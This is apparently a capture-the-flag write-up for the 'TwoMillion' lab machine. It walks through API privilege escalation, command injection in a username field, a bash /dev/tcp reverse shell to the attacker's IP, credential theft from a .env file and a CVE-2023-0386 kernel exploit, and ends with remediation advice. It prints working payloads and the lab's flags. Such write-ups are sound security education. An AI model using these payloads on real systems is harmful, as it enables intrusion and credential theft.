









## Overview

This report details the compromise of 'TwoMillion'. The engagement begins with web application enumeration, leading to the discovery of an insecure API endpoint that allows for privilege escalation within the application. This administrative access is then leveraged to exploit a command injection vulnerability, establishing an initial foothold on the system. User pivoting is achieved by discovering credentials in a misconfigured environment file, and finally, privilege escalation to root is accomplished by exploiting a known kernel vulnerability (CVE-2023-0386) found through in-system enumeration.

Details:
- **Machine:** TwoMillion
- **OS:** Linux
- **Difficulty:** 3.8/10
- **Key Vulnerabilities:** Broken Access Control, Command Injection, Credential Leakage, Kernel Exploit (CVE-2023-0386)

## Reconnaissance & Enumeration

The initial reconnaissance began with a service and version scan using `nmap` to map what ports were open on the target:
```bash
nmap -sV -sC 10.10.11.221
```
- `-sV` outputs not just the port, but also what service version is running on it. An outdated service is often a very exploitable vector for attack.
- `-sC` runs a suite of specialised scripts when attempting to connect to each port to hopefully gather more information about them.
After the scan completes, we can now analyse the output:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The `nmap` output revealed the hostname http://2million.htb. I added an entry for this in my /etc/hosts file to resolve the domain to the target IP, allowing me to access the web application:
```bash
echo "10.10.11.221 2million.htb" | sudo tee -a /etc/hosts
```

We should now be able to access the site:



Initial enumeration of the site began with a manual inspection. Looking through the page revealed two interesting endpoints - `/login` and `/invite`.\
The login page, while potentially vulnerable, required an email and password, so we need to register first. The invite page confirms that we can sign up, but only with an invite code.\
While looking through the page's source code for any useful information, I noticed a script `inviteapi.min.js` that was being loaded. After accessing the script and deobfuscating it using Gemini, we could read the `makeInviteCode()` function:
```javascript
// This function makes a new invite code.
function makeInviteCode() {
    // Make an AJAX call using jQuery's $.ajax method.
    $.ajax({
        // The HTTP request type is POST.
        type: "POST",
        // The expected data type from the server is JSON.
        dataType: "json",
        // The URL endpoint for the API call.
        url: '/api/v1/invite/how/to/generate',
        // A function to handle a successful response from the server.
        success: function(response) {
            // Log the response to the console.
            console.log(response);
        },
        // A function to handle an error in the request.
        error: function(response) {
            // Log the error response to the console.
            console.log(response);
        }
    });
}
```
After executing this function in the browser console, we receive a response containing encrypted data. In the JSON, we can see the line `enctype: "ROT13"` which indicates this data was encrypted with a caesar cipher:
```json
{ data: "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr", enctype: "ROT13" }
```
The decrypted message tells us to make a POST request `/api/v1/invite/generate` to generate our invite code. We will use BurpSuite for this.\
After intercepting a request using the proxy and sending a new request (changing the method to POST and the endpoint to `/api/v1/invite/generate`) we receive a Base64 encoded string. My BurpSuite request is below, although yours might be slightly different:
```http
POST /api/v1/invite/generate HTTP/1.1
Host: 2million.htb
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```
After decoding, we now have our invite code and can sign up.

## Exploitation & Initial Foothold

We will now begin our act of exploitation to bypass security controls.\
Upon inspecting the dashboard, there is an interesting endpoint `/home/access` which allows you to generate a VPN for your user via an API.\
Accessing `/api/v1` allows us to enumerate all the available API endpoints which provides us with incredibly useful information regarding admin API endpoints:
```json
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```
There are three different `admin` endpoints, allowing us to access privileged actions. The first two aren't useful to us right now as we aren't an admin, although we will make a PUT request using BurpSuite to the third to see if we can update the settings for our user.\
We are notified that alongside our request, we need to send a body containing parameter values for `email` and `is_admin`.\
Let's specify `Content-Type` as `application/json` to include these parameters alongside our request, using the `email` for our account and setting `is_admin` to 1 (equivalent to true) which will update our account settings to make us an admin:
```http
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://2million.htb/home
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=jinbcop505529lan6ebpsm6bp9
Content-Type: application/json
Connection: keep-alive
Content-Length: 42

{
"email":"dash@dash.com",
"is_admin":1
}
```
We can confirm we are an admin by visiting `/api/v1/admin/auth`.\
Now that we are able to access `/api/v1/admin/vpn/generate` we will use BurpSuite again to make a POST request here, being told once again to include a message body with the parameter `username`.\
Specifying a username only yields another .ovpn file, which doesn't seem too useful to us here. Since only admins should have access to this endpoint, the input may not be properly sanitised, so we should attempt to detect a command injection vulnerability.\
To start, let's provide a username followed by a semicolon `;` and our command `whoami`. The semicolon ends the current command, allowing our following text to be interpreted as its own command:
```json
{"username":"dash; whoami"}
```
The output is now empty. While this doesn't confirm a command injection vulnerability, we should always look further into something where our input can affect the application's behaviour.\
Since `whoami`'s output isn't being sent back to us, we will try a different command to connect to our computer using `curl`. This command makes a `HTTP GET` request to the specified IP address.\
In order to carry this out, we must first get our own IP address (which we can use `ifconfig` for) and then need to start a http server on our device. We can do this using Python:
```bash
sudo python -m http.server 80
```
This command starts a http server which runs on port 80 (the default port for http) on our IP.
After attempting to make this request from the target machine *(replace the IP with your own)*:
```json
{"username":"dash; curl 10.10.14.107"}
```
We should see a connection has been made in our console from the machine's IP - confirming that a command injection vulnerability exists!



We should now create a reverse shell for ourselves, as it's easier to execute commands from a shell environment than the tedious process of using command injection every time.\
Lots of reverse shell scripts are available on the internet, but for our purpose we will use a simple bash one.\
The command creates a connection to an IP over a specified port meaning we must allow connections to our device and be listening on the specified port to correctly receive any incoming connections and their data.\
We can do this by starting a http server again (the same as above) and then by running `netcat` (`nc`) to listen (`-l`) on port (`-p`) 1337:
```bash
sudo python -m http.server 80
nc -lvnp 1337
```
After setting this up we can then input the bash command into the command injection vulnerability:
```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.107/1337 0>&1'
```
- `bash -c` tells the shell to use **Bourne Again Shell** and execute the following command.
- `bash -i` forces the shell to run in interactive mode, which is useful as automated users (such as www-data) may not have their sessions automatically configured to run in interactive mode.
- `>& /dev/tcp/10.10.14.107/1337` will redirect both `stdout` and `stderror` over a network specified by /dev/tcp which is a special bash feature that allows it to create a network connection. In this instance it will redirect it to our IP on port `1337` (which our `netcat` is listening on).
- `0>&1` means whatever is sent from our end to the connection's output will be treated as input - essentially what allows us to execute commands post-connection.

Once we have completed this, we should then have a functional reverse shell accessible through our `netcat` command in our terminal:



Unfortunately, this is a "dumb" shell; it's unstable, lacks tab-completion, and Ctrl+C will kill the entire session. To work more effectively, we should upgrade to a fully interactive TTY.
<br>
<details>
<summary><strong>Click here for a guide on upgrading to a fully interactive shell.</strong></summary>
<br>
<p>Upgrading a basic reverse shell generally involves a standard, three-step process and is a critical step for any serious enumeration:</p>
<p><strong>Step 1: Spawn a TTY using Python</strong></p>
<pre><code>python -c 'import pty; pty.spawn("/bin/bash")'</code></pre>
<p><strong>Step 2: Background the Shell and Stabilize with <code>stty</code></strong></p>
<ol>
<li>Press <code>Ctrl+Z</code> to background your current shell session.</li>
<li>In your <strong>local</strong> attacker terminal (not the reverse shell), enter the following:
<pre><code>stty raw -echo; fg</code></pre>
<p>
<ul>
<li><code>stty raw -echo</code> tells your local terminal to pass all keystrokes through without processing them first.</li>
<li><code>fg</code> brings the backgrounded reverse shell process back to the foreground.</li>
</ul>
</p>
</li>
</ol>
<p><strong>Step 3: Set the Terminal Type</strong></p>
<pre><code>export TERM=xterm</code></pre>
<p>You now have a fully functional, stable shell. You can use arrow keys, tab completion, <code>Ctrl+C</code>, and run interactive programs without killing your session.</p>
</details>
<br>

## User Pivoting to `admin`

The user flag is located in `/home/admin/user.txt` but we don't have read permissions for this file so we must pivot to the user `admin`.\
Going back to our home directory and into `~/html` we are presented with a host of files and folders:



Something that instantly pops out is `Database.php` which we can tell, upon reading, creates a database storing usernames and passwords.\
To find out what these credentials might be, we should look for sensitive configuration files that we can read. In web applications `.env` files are commonly used to store database credentials and other secrets.
This file happens to be present, and reading it gives us access to the admin's credentials:



After saving this information, we can then exit this session and `ssh` back in using the admin's password, allowing us to read the user flag:
```bash
ssh admin@10.10.11.221 -p 22
```


**User Flag:** d462f9bd87e4e7bdbd751c29e6c52fc1

## Privilege Escalation

Now with user-level access, the goal is to become root. My methodology will start with running linPEAS to enumerate potential vulnerabilities.\
You can find linPEAS [here](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) and once downloaded can get it on the target system by using a simple curl command to your IP.\
We will also need to add execution (`+x`) permissions to this file:
```bash
curl 10.10.14.107/linPEAS > /tmp/linPEAS
cd /tmp
chmod +x linPEAS
./linPEAS -a > linpeas_output.txt
```
*Keep in mind you will need to start a http server again if you closed your old one.*\
\
I ran LinPEAS with the `-a` flag for an exhaustive audit and redirected the output to a file. While reviewing the report, the 'Interesting Files' section highlighted mail in `/var/spool/`.



Navigating to this directory and reading the email gives us vital information that the Linux machine is very likely vulnerable to a CVE related to OverlayFS / FUSE:



A quick Google search reveals **CVE-2023-0386** as the method they are referring to in this email. We can find a Proof Of Concept (PoC) for this vulnerability on GitHub (here)[https://github.com/puckiestyle/CVE-2023-0386].\
The directory uses a Makefile to build the code into an executable which, when run, should give us root.\
Our first step is to clone the repository, zip it, and transfer it to our target machine:
```bash
git clone https://github.com/puckiestyle/CVE-2023-0386
zip -r CVE.zip CVE-2023-0386
```
Using our http server we can then download the file from the target machine with `curl`:
```bash
curl 10.10.14.107/CVE.zip > /tmp/CVE.zip
```
Extracting the zip and running `make all` builds the PoC. Following the README.md instructions on the GitHub repository executes the PoC and gives us root:
```bash
# Execute in terminal 1
./fuse ./ovlcap/lower ./gc
# Execute in terminal 2
./exp
```
*Note: you will need to create another ssh session for your second terminal and `cd` into the same directory for both.*



**Root Flag:** d66f05a7993ed29518d8dfb7add912c7

## Conclusion

### Remediation & Mitigation
For a system to be secure, it is vital to understand its vulnerabilities and how they could be fixed. Below are the key security failings found in this machine and ways to mitigate them:
- Broken Access Control in API: The API endpoint for updating user settings (/api/v1/admin/settings/update) failed to validate that the requesting user was an administrator. This could be fixed by implementing proper server-side authorisation checks on all privileged endpoints.
- Command Injection: The application passed unsanitised user input from the username parameter directly to a system shell. This could be mitigated by validating all user input and using parameterised functions that treat input as data, not executable code.
- Credential Leakage in Environment File: Administrative credentials were found in a world-readable .env file. Sensitive files like this should have hardened file permissions so they are only readable by the owner.
- Outdated Kernel: The system was vulnerable to a known kernel exploit (CVE-2023-0386) which allowed for root access. A patch management policy should be implemented to ensure all system and kernel components are kept up-to-date with the latest security patches.

### Conclusion & Key Takeaways
Overall, the TwoMillion machine was a valuable exercise in multi-stage attacks, showing how a single flaw in a web application can lead to a full system compromise.\
A key takeaway from this box was the importance of thorough API enumeration. What started as a simple user registration process quickly led to a full compromise, all because we took the time to map out and test every available endpoint.\
Furthermore, this box showed how vital post-exploitation enumeration is. Finding the .env file wasn't luck; it was the result of methodically searching the webroot after our initial foothold, a step that's crucial for finding the path forward. Finally, reaching root by finding an email about a known CVE serves as a powerful reminder that keeping a system patched is one of the most basic but important security measures.
